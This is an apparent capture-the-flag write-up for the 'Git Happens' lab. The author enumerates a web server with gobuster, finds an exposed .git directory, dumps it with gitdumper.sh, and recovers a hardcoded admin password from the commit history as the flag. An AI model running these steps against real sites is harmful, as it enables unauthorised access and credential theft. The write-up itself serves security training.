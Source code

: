 # Git Happens
Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

## NOTES

### Enumerate
Trying to login, doesnt actually work or give any error message

Interesting source code, nothing really that could be glanced

```
gobuster -u 10.10.70.145 -w DirBuster-Lists/directory-list-2.3-medium.txt
```
Didnt find anything, kinda disappointed

Manually checked and could get the .git directory

http://10.10.70.145/.git/HEAD


### Attack git directory
```
./gitdumper.sh http://10.10.70.145/.git/ ../githappens/.git
```

```
linux@ubuntu:~/Documents/Gittools/GitTools/githappens/.git/.git$ git show-branch
[master] Update .gitlab-ci.yml
linux@ubuntu:~/Documents/Gittools/GitTools/githappens/.git/.git$ git log
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Thu Jul 23 22:22:16 2020 +0000

    Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:21:25 2020 +0200

    add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Fri Jul 24 00:08:38 2020 +0200

    setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:42:30 2020 +0200

    Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isn't enough.

    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.

    Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:17:43 2020 +0200

    Made the login page, boss!

commit 2f423697bf81fe5956684f66fb6fc6596a1903cc
Author: Adam Bertrand <hydragyrum@gmail.com>
Date:   Mon Jul 20 20:46:28 2020 +0000

    Initial commit
```

git show 395e087334d613d5e423cdf8f7be27196a360459

```
+        if (
+          username === "admin" &&
+          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
```

## FLAG
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
